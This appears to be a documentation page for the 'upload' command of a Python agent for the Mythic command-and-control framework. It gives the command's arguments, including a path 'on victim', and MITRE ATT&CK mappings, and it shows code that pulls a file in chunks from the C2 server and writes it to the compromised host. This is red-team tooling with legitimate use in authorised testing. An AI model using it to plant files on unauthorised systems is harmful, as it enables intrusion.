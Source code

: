 +++
title = "upload"
chapter = false
weight = 100
hidden = false
+++

## Summary

Upload a file to the target machine by selecting a file from your computer. 
     
- Python Versions Supported: 2.7, 3.8     
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### file

- Description: file to upload   
- Required Value: True  
- Default Value: None  

#### remote_path

- Description: /remote/path/on/victim.txt  
- Required Value: True  
- Default Value: None  

## Usage

```
upload
```

## MITRE ATT&CK Mapping

- T1132  
- T1030  
- T1105  

## Detailed Summary
This function uses API calls to chunk and transfer a file down from Mythic to the agent, then uses API calls to write the file out to disk:

```Python
    def upload(self, task_id, file, remote_path):
        total_chunks = 1
        chunk_num = 0
        with open(remote_path, "wb") as f:
            while (chunk_num < total_chunks):
                if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                    return "Job stopped."

                data = { 
                    "action": "post_response",
                    "responses": [
                        {
                            "upload": {
                                "chunk_size": CHUNK_SIZE,
                                "file_id": file, 
                                "chunk_num": chunk_num,
                                "full_path": remote_path
                            },
                            "task_id": task_id
                        }
                    ] 
                }
                response = self.postMessageAndRetrieveResponse(data)
                chunk = response["responses"][0]
                chunk_num+=1
                total_chunks = chunk["total_chunks"]
                f.write(base64.b64decode(chunk["chunk_data"]))

```
After successfully writing the file to disk, the agent will report back the final full path so that it can be tracked within the UI.
